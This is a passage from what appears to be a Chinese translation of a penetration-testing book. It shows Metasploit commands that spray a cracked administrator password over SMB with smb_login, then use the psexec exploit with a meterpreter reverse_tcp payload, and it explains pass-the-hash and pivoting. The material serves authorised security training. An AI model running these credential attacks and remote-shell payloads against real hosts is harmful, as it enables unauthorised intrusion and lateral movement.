如您所见，该行包含`445/open/tcp`详细信息，这允许我们针对该特定行。然后，我们使用空格作为定界键进行剪切，并选择字段 2，其中，如果按空格计算数据字段，则可以找到 IP 地址。此技术非常常见，可用于快速识别 IP 地址打开的内容，并基于服务或端口创建多个平面文件。

如[第 1 章](01.html#aid-F8901 "Chapter 1. Understanding the Penetration Testing Methodology")所示，*了解渗透测试方法*后，您可以使用 Metasploit 模块中的`rhosts`字段，通过 CIDR 符号或范围来定位主机。创建平面文件时，可以使用 Metasploit 模块通过引用平面文件来访问主机列表。要运行 Metasploit 控制台，请执行以下命令：

```
msfconsole

```

如果从命令行运行 Metasploit Professional，请使用以下命令：

```
msfpro

```

现在来看这个例子，其中我们将尝试查看我们之前破解的密码是否在网络其余部分的任何主机上工作：

```
use auxiliary/scanner/smb/smb_login
set SMBUser administrator
set SMBPass test
set SMBDomain Workgroup
set RHOSTS file:/root/Desktop/smb_hosts_list
run

```

`use`命令选择本例中要使用`smb_login`模块的模块，该模块验证**服务器消息块**（**SMB**）凭证。`SMBUser`集合选择您要对其执行此攻击的用户名。`SMBPass`集合选择本模块中要使用的密码。设置`SMBDomain`字段允许您为组织设置域。`run`命令执行辅助模块。在早些年，您必须使用`run`来执行一个辅助模块，并对一个利用模块进行利用。如今，这些模块确实是可互换的，是开发后模块的例外，需要`run`，如[所示 https://www.offensive-security.com/metasploit-unleashed/windows-post-gather-modules/](https://www.offensive-security.com/metasploit-unleashed/windows-post-gather-modules/) 。

### 提示

如果您使用本地帐户进行攻击，则应将域设置为工作组。攻击域帐户时，应将域设置为组织的实际域。

Metasploit Professional 是一个帮助优化渗透测试工作的工具，它有一个 web**图形用户界面**（GUI）。Metasploit pro 提供了许多出色的功能，但是如果您需要在受防火墙保护的多个网络层之间切换，控制台是最佳选择。要了解如何执行自动旋转，您可以在[找到详细信息 https://www.offensive-security.com/metasploit-unleashed/pivoting/](https://www.offensive-security.com/metasploit-unleashed/pivoting/) 。要了解如何执行手动枢轴，请参阅[https://pen-testing.sans.org/blog/2012/04/26/got-meterpreter-pivot](https://pen-testing.sans.org/blog/2012/04/26/got-meterpreter-pivot) ，包括基于端口的旋转、手动路由和 SOCKS 代理。

这种攻击方式非常普遍；您可以查找凭据，确定凭据可能使用的服务，然后为目标主机构建平面文件。接下来，您将引用这些平面文件来检查主机是否存在漏洞。一旦您确认这些主机易受攻击，您可以使用**进程执行****PSEXEC**攻击（如果您有哈希）或标准认证的 PSEXEC，通过**传递哈希****PtH**攻击利用它们，如下代码所示：

### 提示

PtH 是一种攻击，它利用了与系统如何在网络上进行身份验证相关的本机 Windows 弱点。不需要质询/响应身份验证方法，哈希密码可以直接传递给主机。这意味着您不必破解**局域网管理器****LM**或**新技术 LM****NTLM**哈希。许多 Metasploit 模块可以对 SMB 服务使用凭据或哈希。

```
msfconsole
use exploit/windows/smb/psexec
set SMBUser administrator
set SMBPass test
set SMBDomain Workgroup
set payload windows/meterpreter/reverse_tcp
set RHOST 192.168.195.112
set LPORT 443
exploit -j

```
